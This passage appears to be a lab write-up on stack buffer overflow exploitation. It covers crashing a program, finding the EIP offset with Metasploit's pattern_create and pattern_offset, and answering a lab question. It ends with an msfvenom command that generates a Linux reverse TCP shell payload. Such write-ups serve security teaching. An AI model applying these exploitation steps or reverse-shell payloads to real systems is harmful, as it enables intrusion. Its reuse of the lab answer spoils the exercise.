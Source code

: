 They will execute smoothly that means they will not disturbed our program but when we  increase our bytes up to 2550 or more they show us an error message called `segmentation fault` so now we know how much bytes we need to do a segmentation fault error that our first step.
**Step 1>Identify where segmentation fault occurs**
Now we know where segmentation fault occur now we have to know the exact bytes number to  where segmentation fault occur so to find out that we use `metasploit`script name `pattern_create.rb` that create a pattern for using our required no bytes like we know `2550` bytes will cause an segmentation fault error so we create a pattern in `2550` bytes using the following command script 
```shell
$  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2550 > pattern.txt
```
Now we create a pattern so copy the pattern and paste it in python command like the following
```gdb
(gdb) run $(python -c 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab...<snip>')
```
When we run that we see the segmentation fault error like before but we see some value/address also that cause the error we can see it using the following command
```gdb
(gdb) info register eip
```
copy the `EIP` value and we use that value to find what are the exact no bytes that cause the segmentation fault.Paste the address value after the `-q` in Metasploit script `pattern_offset` like follows  
```shell
$  /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```
They show us the exact number of bytes where segmentation fault occurs.
That is step two in BOF
**Step 2>Finding the offset where segmentation fault occur using pattern_create and pattern_offset metasploit script or any other source**
The exact no of bytes where segmentation fault occur is our answer in this task.

Q3: Submit the size of the stack space after overwriting the EIP as the answer. (Format: 0x00000)

A: 0x22000

**Solution**

In the previous question we find the exact no bytes where our program show segmentation fault error using metasploit script `pattern_create.rb` and `pattern_offset` so now our buffer overflow notes is
```BOF Notes
Buffer = 2060 bytes
```
After 2060 bytes we discovered the `eip` value and now we can easily overwrite the `eip` and we can control the `eip` But for safety we use 8 bytes after the buffer.So our notes now   
```BOF Notes
Buffer = 2060 bytes
eip = 8 bytes
```
So now we can control the `eip` now let find out our shellcode length to do that we have to make a testing shellcode we can do that using the following command.
```
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=31337 --platform linux --arch x86 --format c
```
Here we use `msfvenom` that are metasploit module that are use to generate different payloads.
Here,
- **`-p`:** Is use for specify payload type
- **`LHOST`:** Is use to specify Local Host Address where we receives the connection
- **`LPORT`**: Is use to specify Local Host Port where they connect
- **`--platform`**: Is use to specify the platform(operating system)
- **`--arch`**: Is use to specify target architecture
- **`--format`**: Is use to specify the format like `c`.As we are testing `c` program so we use format `c`
Its Output is like following 
```shell-session
```